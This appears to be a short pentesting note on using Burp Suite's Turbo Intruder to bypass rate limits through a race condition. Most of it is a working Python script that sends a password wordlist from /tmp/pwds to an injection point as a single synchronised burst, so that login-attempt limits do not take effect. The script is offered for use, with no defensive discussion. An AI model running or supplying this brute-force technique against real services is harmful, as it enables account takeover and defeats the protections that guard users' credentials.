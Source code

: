 # Using Turbo Intruder for Race condition fuzzing limit bypass

![image.png](Using%20Turbo%20Intruder%20for%20Race%20condition%20fuzzing%20li%201e8021737a8980fbb757c9afbd8acf16/image.png)

Injection point marked as `%s` , dictionary opened in a script

```bash
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    for word in open('/tmp/pwds'):
        engine.queue(target.req, word.rstrip(), gate='race1')

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('race1')

def handleResponse(req, interesting):
    table.add(req)
```